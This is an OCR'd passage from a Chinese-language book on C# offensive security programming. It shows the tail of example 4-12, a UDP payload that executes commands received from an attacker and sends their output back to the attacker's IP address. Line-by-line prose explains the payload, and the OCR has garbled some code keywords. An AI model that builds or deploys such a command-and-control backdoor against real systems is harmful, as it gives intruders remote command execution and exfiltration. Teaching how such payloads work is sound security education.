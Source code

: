 > }
> 
> catch
> 
> {
> 
> results = "运行命令时出错：" + filename;
> 
> }
> 
> 使用 (Socket sock = new ➋Socket(AddressFamily.InterNetwork,
> 
> SocketType.Dgram, ProtocolType.Udp))
> 
> {
> 
> IPAddress sender = ➌localEP.Address;
> 
> IPEndPoint remoteEP = new ➍IPEndPoint(sender, lport);
> 
> byte[] resultsBytes = Encoding.ASCII.GetBytes(results);
> 
> sock.➎SendTo(resultsBytes, remoteEP);
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }

示例 4-12：执行收到的命令并将输出广播回攻击者

与之前的有效载荷类似，我们使用 Process 和 ProcessStartInfo 类来执行命令并返回输出。我们使用 filename 和 arg 变量分别存储命令和命令参数，并将它们设置到 StartInfo 属性中，同时还设置 UseShellExecute 属性和 RedirectStandardOutput 属性。通过调用 Start() 方法启动新进程，然后调用 WaitForExit() 方法等待进程执行完毕。一旦命令执行完毕，我们通过读取进程的 StandardOutput 流属性的 ReadToEnd() 方法 ➊ 来获取输出，并将其保存到之前声明的 results 字符串中。如果在进程执行过程中发生错误，我们会将字符串 "运行命令时出错：<cmd>" 赋值给 results 变量。

现在我们需要设置一个用于将命令输出返回给发送者的套接字。我们将使用 UDP 套接字广播数据。通过使用 Socket 类，我们通过将枚举值作为参数传递给 Socket 构造函数来实例化一个新的 Socket ➋。第一个值 AddressFamily.InterNetwork 表示我们将使用 IPv4 地址进行通信。第二个值 SocketType.Dgram 表示我们将使用 UDP 数据报（UDP 中的 D）而不是 TCP 包进行通信。第三个值 ProtocolType.Udp 告诉套接字我们将使用 UDP 与远程主机进行通信。

在创建用于通信的套接字后，我们通过获取 localEP.Address 属性 ➌ 的值来分配一个新的 IPAddress 变量，该值在接收到 UDP 监听器上的数据时会被填充为攻击者的 IP 地址。我们使用攻击者的 IP 地址和作为有效负载参数传递的监听端口，创建一个新的 IPEndPoint ➍。

一旦我们设置好了套接字并且知道将命令输出返回到哪里，Encoding.ASCII.GetBytes() 就会将输出转换为字节数组。我们使用 SendTo() ➎ 在套接字上广播数据，通过将包含命令输出的字节数组作为第一个参数，发送者的端点作为第二个参数，最终，我们再次返回到 while 循环的顶部读取下一个命令。

攻击者的代码
